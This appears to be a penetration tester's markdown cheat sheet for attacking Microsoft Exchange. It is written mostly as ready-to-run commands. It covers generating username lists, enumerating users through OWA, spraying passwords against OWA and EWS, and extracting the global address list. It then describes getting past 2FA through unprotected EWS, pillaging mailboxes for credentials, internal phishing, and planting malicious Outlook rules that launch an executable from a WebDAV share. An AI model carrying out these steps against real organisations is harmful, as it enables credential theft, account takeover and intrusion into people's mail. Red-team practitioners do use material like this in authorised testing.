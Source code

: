 #### Name scheme fuzzing
- Create a username list from the OSINT
- Could use https://github.com/dafthack/EmailAddressMangler to generate mangled username list
```
Invoke-EmailAddressMangler -FirstNamesList <TXT> -LastNameList <TXT> -AddresConvention fnln | Out-File -Encoding ascii possible-usernames.txt
```

- https://gist.github.com/superkojiman/11076951
```
/opt/namemash.py names.txt >> possible-usernames.txt
```

#### Username Enumeration
- https://github.com/dafthack/MailSniper
```
Invoke-UsernameHarvestOWA -Userlist possible-usernames.txt -ExchHostname <EXCH HOSTNAME> -DOMAIN <IDENTIFIED INTERNAL DOMAIN NAME> -OutFile domain_users.txt
```

#### Password discovery
- https://github.com/dafthack/MailSniper
```
Invoke-PasswordSprayOWA -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile ews-sprayed-creds.txt
```

#### Global Address List (GAL) Extraction
- https://els-cdn.content-api.ine.com/09f3f35f-6f69-4a9d-90be-d13046e692c0/index.html#
```
Get-GlobalAddressList -ExchHostname <EXCH HOSTNAME> -UserName <DOMAIN>\<USER> -Password <PASSWORD> -Verbose -OutFile global-address-list.txt
```
- Then you could spray passwords again to get access to more mail accounts!

#### Bypassing 2fa
- Can check by server responses if supplied password is correct or not.
- Most 2FA vendors do not cover all available Exchange protocols. Owa might be protected but EWS might not be!

```
# Access through EWS
Invoke-SelfSearch -Mailbox <MAIL ADDRESS> -ExchHostname <DOMAIN NAME> -remote
```

#### Spreading the compromise
- Pillaging mailboxes for credentials/sensitive data
  -  https://github.com/milo2012/owaDump (--keyword option)
  -  https://github.com/dafthack/MailSniper (Invoke-SelfSearch)
  -  https://github.com/xorrior/EmailRaider (Invoke-MailSearch)
- Internal phishing
  - Mail from internal email adresses to targets.
- Malicious Outlook rules
  - Two interested options: Start application and run a script (Start application is synced through Exchange server, run a script is not)
  - Since Outlook 2016 both options are disabled by default
  - Attack prequisites:
    - Identification of valid credentials
    - Exchange Service Access (via RPC or MAPI over HTTP)
    - Malicious file dropped on disk (Through WebDAV share using UNC or local SMB share when physically inside) 
  - The attack:
    - Create a malicious executable (EXE, HTA, BAT, LNK etc.) and host it on an open WebDAV share
    - Create a malicious Outlook rule using the rulz.py script, pointing the file path to your WebDAV share